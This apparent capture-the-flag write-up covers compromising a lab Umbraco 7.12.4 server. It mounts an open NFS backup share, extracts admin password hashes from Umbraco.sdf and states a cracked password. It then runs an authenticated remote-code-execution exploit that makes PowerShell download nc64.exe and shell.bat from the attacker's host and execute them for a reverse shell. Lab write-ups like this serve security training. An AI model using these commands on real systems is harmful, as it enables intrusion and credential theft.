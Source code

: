 When we check some not-found page, it would not be 404 page
![[Pasted image 20240914112003.png]]

There is another port 2049 NSF would not be checked.
```
showmount -e 10.10.10.180      

Export list for 10.10.10.180:
/site_backups (everyone)

sudo mount -t nfs 10.10.10.180:/site_backups /mnt/

Then we can get the backup file of this web-service, let's enumeratet the valid credit.
```

By enumerate the backup, I can get 3 useful files
`Web.config, umbraco.config Umbraco.sdf`
The config files would be hard to read and I did not find anything useful, So I come to the `.sdf` file
```
strings Umbraco.sdf | head

Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f

smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32

```

I can guess that there’s an admin account, with email admin@htb.local, and password hash `b8be16afba8c314ad33d812f22a04991b90e2aaa` that is a SHA1. There’s another user, smith, who has a password which is stored using HMACSHA256.

Then we get the credit `admin@htb.local:baconandcheese`

Let's try to login the `umbraco CMS` and try to exploit it.
Then we successfully login and we find the version `Umbraco version 7.12.4`, It is our target!!!!

```
First,we need to upload the nc.exe

python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a 'wget http://10.10.14.65/nc64.exe -outfile C:/programdata/nc.exe'

Then we can just exec the bat or just exec the command

python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a 'wget http://10.10.14.65/shell.bat -outfile C:/programdata/shell.bat

python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "C:/programdata/shell.bat"

Finally, remember to open the netcat to handle the shell

Then we can get the user shell
```
